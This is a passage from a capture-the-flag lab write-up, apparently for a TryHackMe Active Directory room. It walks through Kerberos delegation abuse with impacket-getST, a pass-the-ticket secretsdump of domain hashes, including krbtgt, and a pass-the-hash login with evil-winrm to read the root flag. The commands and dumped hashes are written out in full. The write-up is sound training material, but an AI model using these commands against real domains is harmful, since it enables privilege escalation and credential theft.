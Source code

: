 {% code title="" overflow="wrap" %}
```bash
impacket-getST -spn 'cifs/K2RootDC.k2.thm' -impersonate 'administrator' 'k2.thm/GIGIPC$:Password123!'                                             

[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_K2RootDC.k2.thm@K2.THM.ccache
```
{% endcode %}

This ticket can then be used with Pass-the-Ticket, and could grant access to the file system of the TARGETCOMPUTER.





### Pass-the-ticket

{% code title="" overflow="wrap" %}
```bash
export KRB5CCNAME=administrator@cifs_K2RootDC.k2.thm@K2.THM.ccache

impacket-secretsdump -no-pass -k -dc-ip 10.10.88.111 k2.thm/administrator@K2RootDC.k2.thm

Administrator:500:aad3b435b51404eeaad3b435b51404ee:15ecc755a43d2e7c8001215609d94b90:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5dea71ff019233bdca7ec46510727632:::
krbtgt:aes256-cts-hmac-sha1-96:10e96d99d70a03db0d17a30bda313478b4873d29e3e767474142453ab2228713
```
{% endcode %}



### Pass-the-Hash as Administrator user

```bash
evil-winrm -i 10.10.88.111 -u 'administrator' -H '15ecc755a43d2e7c8001215609d94b90'
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Print the root flag.

```powershell
more C:\Users\Administrator\Desktop\root.txt
```

